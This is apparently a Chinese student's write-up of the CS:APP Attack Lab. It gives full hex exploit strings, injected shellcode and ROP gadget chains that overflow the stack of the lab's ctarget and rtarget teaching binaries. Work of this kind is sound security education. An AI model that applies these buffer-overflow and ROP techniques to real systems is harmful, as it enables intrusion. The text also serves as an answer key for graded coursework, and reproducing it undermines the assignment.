





# Attack lab

该实验在我电脑的wsl的ubuntu操作系统下无法正常运行，在debian环境下能正常运行，注意运行时要加上-q

## Part I:Code Injection Attacks

### Level 1

通过输入字符串，利用栈溢出原理，将getbuf函数的返回地址改成touch1函数的入口地址

注意字节顺序

getbuf函数的反汇编代码

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

phase_1.txt文件

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

运行命令

```
./hex2raw < phase_1.txt |./ctarget -q
```


### Level 2

level2需要将vlevel的值改成cookie值，再return到touch2函数入口处。

修改后的rsp寄存器如下所示：



phase_2.txt文件

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

运行命令

```sh
./hex2raw < phase_1.txt |./ctarget -q
```

结果

```sh
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

### Level3

本题与上题类似，不同点在于传的参数是一个字符串。先给出`touch3`的C语言代码

```c
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

`touch3`中调用了`hexmatch`，它的C语言代码为：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

也就是说，要把`cookie`转换成对应的字符串传进去

注意第6行，`s`的位置是随机的，我们写在`getbuf`栈中的字符串很有可能被覆盖，一旦被覆盖就无法正常比较。

因此，考虑把`cookie`的字符串数据存在`test`的栈上，其它部分与上题相同，这里不再重复思路。

### 注入代码

先查找`test`栈顶指针的位置：


`0x5561dca8`，这就是字符串存放的位置，也是调用`touch3`应该传入的参数，又`touch3`代码的地址为`4018fa`。从而得到代码：

```c
movq    $0x5561dca8, %rdi
pushq   $0x4018fa
ret
```

字节级表示为：

```c
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

### 栈帧讲解

我们期望的栈帧为


逻辑如下：

- `getbuf`执行`ret`，从栈中弹出返回地址，跳转到我们注入的代码
- 代码执行，先将存在`caller`的栈中的字符串传给参数寄存器`%rdi`，再将`touch3`的地址压入栈中
- 代码执行`ret`，从栈中弹出`touch3`指令，成功跳转

### Solution

cookie`0x59b997fa`作为字符串转换为`ASCII`为：`35 39 62 39 39 37 66 61`

注入代码段的地址与上题一样，同样为`0x5561dc78`

由于在`test`栈帧中多利用了一个字节存放cookie，所以本题要输入56个字节。注入代码的字节表示放在开头，33-40个字节放置注入代码的地址用来覆盖返回地址，最后八个字节存放cookie的`ASCII` 。于是得到如下输入：

```c
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```


**攻击成功！**

## Part II:Return-Oriented Programing

在第二部分中，我们要攻击的是rtarget，他的代码内容和第一部分一致，但采用了两种策略来阻止缓冲区溢出攻击

- 栈随机化
  - 这段程序分配的栈的位置正每次运行时都是随机的，这就使我们无法确定在哪里插入代码
- 限制可执行代码区域
  - 也就是存放在栈上的代码不可执行，使得插入的恶意代码无法执行

针对这些防御措施，文档提供了攻击策略，即**ROP：面向返回的程序设计**，就是在已经存在的程序中找到特定的以`ret`结尾的指令序列为我们所用，称这样的代码段为`gadget`，把要用到部分的地址压入栈中，每次`ret`后又会取出一个新的`gadget`，于是这样就能形成一个程序链，实现我们的目的。**我喜欢将这种攻击方式称作“就地取材，拼凑代码”**。



同时也给出指令编码表



**举个例子：**

`rtarget`有这样一个函数：

```c
void setval_210(unsigned *p)
{
    *p = 3347663060U;
}
```

它的汇编代码字节级表示为：

```c
0000000000400f15 <setval_210>:
    400f15: c7 07 d4 48 89 c7   movl $0xc78948d4,(%rdi)
    400f1b: c3                  retq
```

查表可知，取其中一部分字节序列 48 89 c7 就表示指令`movq %rax, %rdi`，这整句指令的地址为`0x400f15`，于是从`0x400f18`开始的代码就可以变成下面这样：

```c
movq %rax, %rdi
ret
```

这个小片段就可以作为一个`gadget`为我们所用。

其它一些可以利用的代码都在文件`farm.c`中展示了出来

### level1

本题的任务和phase2相同，都是要求返回到touch2函数，phase2中用到的注入代码为

```c
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

由于我们无法找到这个特定值的gadget，所以我们可以先将我们需要的值写入栈中，再利用pop命令将其pop到rdi寄存器中，最后再返回touch2的函数起始地址，任务便完成。

但是farm中找不到pop到rdi寄存器指令的gadget，所以我们另辟蹊径，先pop到rax中，再mov %rax，%rdi，即

```c
popq %rax
ret
#############
mov %rax,%rdi
ret
```



逻辑如下：

- `getbuf`执行`ret`，从栈中弹出返回地址，跳转到我们的`gadget01`
- `gadget01`执行，将`cookie`弹出，赋值给`%rax`，然后执行`ret`，继续弹出返回地址，跳转到`gadget2`
- `gadget2`执行，将`cookie`值成功赋值给参数寄存器`%rdi`，然后执行`ret`，继续弹出返回地址，跳转到`touch2`

### Solution

首要问题是找到我们需要的`gadget`

先用如下指令得到`target`的汇编代码及字节级表示

```text
objdump -d rtarget > rtarget.s
```

查表知，`pop %rax`用`58`表示，于是查找`58`

```c
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq                   retq
```

得到指令地址为`0x4019ab`

`movq %rax, %rdi`表示为`48 89 c7`，刚好能找到！其中 90 表示“空”，可以忽略

```c
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq
```

得到指令地址为`0x4019c5`

根据上图的栈帧，就能写出输入序列：

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

### level2

来自官方的劝退哈哈哈，Before you take on the Phase 5, pause to consider what you have accomplished so far. In Phases 2 and 3, you caused a program to execute machine code of your own design. If CTARGET had been a network server, you could have injected your own code into a distant machine. In Phase 4, you circumvented two of the main devices modern systems use to thwart buffer overflow attacks. Although you did not inject your own code, you were able inject a type of program that operates by stitching together sequences of existing code. You have also gotten 95/100 points for the lab. That’s a good score. If you have other pressing obligations consider stopping right now. Phase 5 requires you to do an ROP attack on RTARGET to invoke function touch3 with a pointer to a string representation of your cookie. That may not seem significantly more difficult than using an ROP attack to invoke touch2, except that we have made it so. Moreover, Phase 5 counts for only 5 points, which is not a true measure of the effort it will require. Think of it as more an extra credit problem for those who want to go beyond the normal expectations for the course.

这道题主要是在rtarget中返回到touch3，看似没有难度

`Phase 3`中用到的注入代码为：

```c
movq    $0x5561dca8, %rdi
pushq   $0x4018fa
ret
```

其中`0x5561dca8`是栈中`cookie`存放的地址。

在本题中由于栈随机化，不能直接将`0x5561dca8`地址直接给%rdi，可以利用%rsp的相对偏移量来获取cookie的存放地址，

```
movq   $0x30(%rsp), %rdi
movq   %rsp, %rax
movq   %rax, %rdi
lea    (%rdi,%rsi,1),%rax
movq   %rax, %rdi
movl   %eax, %edi
movl   %eax, %edx
movl   %esp, %eax
movl   %ecx, %esi
pushq   $0x4018fa
ret
```

查表，`movq %rsp, xxx`表示为`48 89 xx`，查找一下有没有可用的`gadget`

```c
0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq
```

还真找到了，`48 89 e0`对应的汇编代码为

```c
movq %rsp, %rax
```

地址为：`0x401aad`

根据提示，有一个`gadget`一定要用上

```c
00000000004019d6 <add_xy>:
   4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
   4019da:       c3                      retq
```

地址为：`0x4019d6`

通过合适的赋值，这段代码就能实现`%rsp`加上段内偏移地址来确定`cookie`的位置

剩下部分流程与`Phase 3`一致，大体思路如下：

- 先取得栈顶指针的位置
- 取出存在栈中得偏移量的值
- 通过`lea (%rdi,%rsi,1),%rax`得到 cookie 的地址
- 将 cookie 的地址传给`%rdi`
- 调用`touch 3`

由于`gadget`的限制，中间的细节需要很多尝试，尝试过程不再一一列举了，直接给出代码

```c
#地址：0x401aad
movq %rsp, %rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret

#地址：0x4019cc
popq %rax
ret

#地址：0x4019dd
movl %eax, %edx
ret

#地址：0x401a70
movl %edx, %ecx
ret

#地址：0x401a13
movl %ecx, %esi
ret

#地址：0x4019d6
lea    (%rdi,%rsi,1),%rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret
```

注意movl %ecx, %esi这条指令对应89 d1，截取下面部分

```
0000000000401a6e <setval_167>:
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3   
```

按理说后面是91不是90(nop)，所以不能取，但在x86汇编中，0x91 表示 xchg eax, ecx 指令。这条指令的作用是交换 %eax 和 %ecx 寄存器的值。不影响寄存器的值，所以可以。

### 栈帧讲解

为节省空间，每一行代码都省略了后面的`ret`，

逻辑在图上标的很清楚，这里就不再用文字写啦！

**要注意**，`getbuf`执行`ret`后相当于进行了一次`pop`操作，`test`的栈顶指针`%rsp=%rsp+0x8`，所以`cookie`相对于此时栈顶指针的偏移量是`0x48`而不是`0x50`

### Solution

根据上图的栈帧，写出输入序列：

```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
```

